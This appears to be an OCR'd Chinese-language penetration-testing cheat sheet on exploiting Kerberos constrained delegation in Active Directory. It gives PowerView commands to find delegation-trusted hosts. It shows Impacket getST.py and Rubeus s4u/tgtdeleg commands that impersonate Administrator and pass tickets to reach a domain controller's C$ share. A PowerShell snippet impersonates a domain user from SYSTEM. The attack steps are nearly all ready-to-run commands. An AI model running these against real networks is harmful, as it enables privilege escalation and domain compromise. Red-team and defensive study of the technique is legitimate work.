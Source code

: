 	请求允许我们利用委托配置的 Kerberos 票证，我们可以再次使用 Impackets getST.py 脚本
	参数-impersonate 标志并指定我们希望模拟的用户
	探测
	>Get-DomainComputer -TrustedToAuth | select -exp dnshostname
	发现服务
	>Get-DomainComputer previous_result | select -exp msds-AllowedToDelegateTo
### 利用受约束的委托
  	Impacket
	>getST.py -spn HOST/SQL01.DOMAIN 'DOMAIN/user:password' -impersonate Administrator -dc-ip 10.10.10.10
	Rubeus
	>./Rubeus.exe tgtdeleg /nowrap # this ticket can be used with /ticket:...
	>./Rubeus.exe s4u /user:user_for_delegation /rc4:user_pwd_hash /impersonateuser:user_to_impersonate /domain:domain.com /dc:dc01.domain.com /msdsspn:cifs/srv01.domain.com /ptt
	>./Rubeus.exe s4u /user:MACHINE$ /rc4:MACHINE_PWD_HASH /impersonateuser:Administrator /msdsspn:"cifs/dc.domain.com" /altservice:cifs,http,host,rpcss,wsman,ldap /ptt
	>dir \\dc.domain.com\c$
### 在资源上模拟域用户
	要求：
	配置有约束委派的计算机上的 SYSTEM 级别权限
	PS> [Reflection.Assembly]::LoadWithPartialName('System.IdentityModel') | out-null
	PS> $idToImpersonate = New-Object System.Security.Principal.WindowsIdentity @('administrator')
	PS> $idToImpersonate.Impersonate()
	PS> [System.Security.Principal.WindowsIdentity]::GetCurrent() | select name
	PS> ls \\dc01.offense.local\c$